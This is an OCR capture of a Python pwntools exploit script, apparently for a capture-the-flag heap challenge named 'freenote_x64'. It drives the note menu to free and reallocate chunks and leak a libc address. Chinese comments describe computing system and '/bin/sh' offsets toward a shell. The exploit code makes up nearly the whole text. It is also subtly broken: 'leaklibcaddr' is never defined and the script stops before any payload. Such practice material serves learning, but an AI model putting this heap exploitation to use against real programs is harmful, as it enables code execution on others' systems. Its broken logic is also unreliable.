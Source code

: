 ```python

#!/usr/bin/env python
from pwn import *

context(arch = 'x86_64', os = 'linux', endian='little')
context.log_level = 'debug'
#elf = ELF('./freenote_x64')
p = process('./freenote_x64')
#p = remote('127.0.0.1',10001)
print proc.pidof(p)
raw_input('gdb attach')

def new_note(x):
    p.recvuntil("Your choice: ")
    p.send("2\n")
    p.recvuntil("Length of new note: ")
    p.send(str(len(x))+"\n")
    p.recvuntil("Enter your note: ")
    p.send(x)

def delete_note(x):
    p.recvuntil("Your choice: ")
    p.send("4\n")
    p.recvuntil("Note number: ")
    p.send(str(x)+"\n")

def list_note():
    p.recvuntil("Your choice: ")
    p.send("1\n")

def edit_note(x,y):
    p.recvuntil("Your choice: ")
    p.send("3\n")   
    p.recvuntil("Note number: ")
    p.send(str(x)+"\n")   
    p.recvuntil("Length of note: ")
    p.send(str(len(y))+"\n")   
    p.recvuntil("Enter your note: ")
    p.send(y)

####################leak libc#########################

if __name__ == '__main__':
    notelen = 0x80
    new_note('a' * notelen)
    new_note('b' * notelen)
    delete_note(0)
    new_note('cccccccc')
    list_note()
    p.recvuntil('0. ')
    leak = p.recvuntil('\n')
    #log.info('heap:' + str(u64(leak[8:-1])))
    print leak[0:-1].encode('hex')

    delete_note(1)
    delete_note(0)

    #libc_base = leaklibcaddr - offset          (此处偏移依据libc版本不同，基址页对齐4K,也就是地址后三位为000，如：0x7fabba34b000)
    #进而再算出system, "/bin/sh" 偏移  或者将"/bin/sh\x00" 写入到heap or bss
    system_sh_addr = leaklibcaddr - 0x3724a8   
    print "system_sh_addr: " + hex(system_sh_addr)
    binsh_addr = leaklibcaddr - 0x23e7f1
```